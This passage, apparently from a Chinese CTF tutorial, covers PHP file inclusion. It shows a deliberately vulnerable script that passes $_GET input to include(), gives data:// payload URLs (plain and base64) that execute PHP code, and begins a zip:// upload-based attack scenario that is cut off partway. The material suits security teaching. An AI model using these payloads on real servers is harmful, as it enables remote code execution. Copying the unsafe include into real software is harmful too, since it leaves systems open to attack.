 题目：

```php
<?php
    highlight_file(__FILE__);
    echo $_GET[a];
    include($_GET[a]);
	// show_source($_GET[a]);
	// highlight_file($_GET[a]);
	// echo file_get_contents($_GET[a]);
	// include_once($_GET[a]);
	// require($_GET[a]);
	// require_once($_GET[a]);
	// $handle = fopen($_GET[a], 'r');while (($line = fgets($handle)) !== false) {echo $line;}if(!fclose($handle)){die('Failed to close file');}
	// $contents = file_get_contents($_GET[a]);echo $contents;
	// print_r(file($_GET[a]));
```

payload

```bash
# 明文
http://10.10.10.1/ctf/input.php?a=data://text/plain,%3C?php%20phpinfo();?%3E

# base64 编码
http://10.10.10.1/ctf/input.php?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
```

## zip://伪协议

**zip://伪协议用于访问压缩文件中的子文件**假设有一个情况只能上传zip文件，现有一个文件包含利用点，目的是控制服务器

### zip://伪协议的使用

**zip://zipfilepath\#dir/file.php**
**zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]** 在使用时#要url编码%23

场景

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>文件上传</title>
</head>
<body>
    <h1>上传ZIP文件</h1>
    <?php
    // 检查是否有文件被上传
    if ($_SERVER['REQUEST_METHOD'] == 'POST' && isset($_FILES['fileUpload'])) {
        // 检查是否有错误发生
        if ($_FILES['fileUpload']['error'] == 0) {
            // 获取文件名
            $filename = $_FILES['fileUpload']['name'];
            // 获取文件扩展名
            $ext = pathinfo($filename, PATHINFO_EXTENSION);

            // 检查文件扩展名是否为zip
            if (strtolower($ext) == 'zip') {
                // 指定上传目录
                $upload_dir = 'uploads/';
                // 创建目录如果不存在
                if (!is_dir($upload_dir)) {
                    mkdir($upload_dir, 0755, true);
                }
```